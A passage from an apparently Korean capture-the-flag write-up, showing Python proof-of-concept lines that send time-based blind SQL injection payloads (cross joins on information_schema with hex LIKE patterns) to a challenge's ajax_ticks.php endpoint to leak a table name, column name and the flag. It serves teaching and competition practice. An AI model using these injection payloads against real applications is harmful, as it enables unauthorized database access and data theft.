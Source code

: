 ```python
	print(f"[*] The table name is {execute('fl', 'http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns on m.table_name like 0x{}', 'fl', 1.4)}")
	print(f"[*] The column name is {execute('fl', 'http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns as f on f.column_name like 0x{}', 'fl', 0.1)}")
	print(f"[*] The flag is {execute('fl', 'http://15.165.49.138:26354/ajax_ticks.php?symbol=btc cross join information_schema.statistics cross join information_schema.processlist cross join information_schema.tables as m cross join information_schema.columns cross join flag as c on c.flag like 0x{}', 'fl', 1.4)}")
	print("[*] Congratulations for to leak a flag XD")
```

![](https://media.discordapp.net/attachments/857916308892418071/887238985490001930/2021-09-14_4.30.04.png?width=1794&height=753)

PoC 코드를 돌려 주면 위 사진처럼 테이블/컬럼 명 및 플래그 릭에 성공하는 것을 확인할 수 있습니다.

> FLAG : FLAG{d0geg0estom4rs}

---

